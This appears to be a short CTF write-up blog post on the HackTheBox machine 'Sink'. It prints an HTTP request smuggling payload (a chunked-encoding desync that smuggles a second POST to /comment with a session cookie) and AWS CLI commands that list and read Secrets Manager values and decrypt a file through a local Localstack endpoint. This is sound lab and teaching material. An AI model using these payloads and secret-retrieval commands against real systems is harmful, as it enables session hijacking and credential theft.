 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/41ziR8y-1T0/0.jpg
layout: post
media_subpath: /assets/posts/2021-09-18-http-request-smuggling-aws-sink-hackthebox
tags:
- aws
- hackthebox
- smuggling
- linux
- localstack
title: HTTP Request Smuggling & AWS - Sink @ HackTheBox
---
```


We are solving Sink, a 50-point Linux machine on HackTheBox that involves HTTP Request Smuggling & retrieving secrets from Localstack.

{% youtube 41ziR8y-1T0 %}


## Notes

**Reads**

- <https://nathandavison.com/blog/haproxy-http-request-smuggling>

- <https://portswigger.net/web-security/request-smuggling>

**Example Smuggling Request**

```
POST /comment HTTP/1.1
Host: sink.htb:5000
Cookie: session=eyJlbWFpbCI6InhjdEBleGFtcGxlLmNvbSJ9.YUMdpw.xLkQCSRKf7EfIxXMMBDR8i8Pi9M
Content-Type: application/x-www-form-urlencoded
Content-Length: 215
Transfer-Encoding:chunked

0

POST /comment HTTP/1.1
Host: sink.htb:5000
Content-Type: application/x-www-form-urlencoded
Content-Length: 290
Cookie: session=eyJlbWFpbCI6InhjdEBleGFtcGxlLmNvbSJ9.YUMdpw.xLkQCSRKf7EfIxXMMBDR8i8Pi9M

msg=
```

**AWS CLI Commands**

```
aws --endpoint-url=http://127.0.0.1:4566 kms list-keys
aws --endpoint-url=http://127.0.0.1:4566 secretsmanager list-secrets
aws --endpoint-url=http://127.0.0.1:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-yVNfw"
aws kms decrypt --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --query Plaintext --output text --endpoint-url=http://127.0.0.1:4566 --key-id=804125db-bdf1-465a-a058-07fc87c0fad0 --encryption-algorithm RSAES_OAEP_SHA_256
```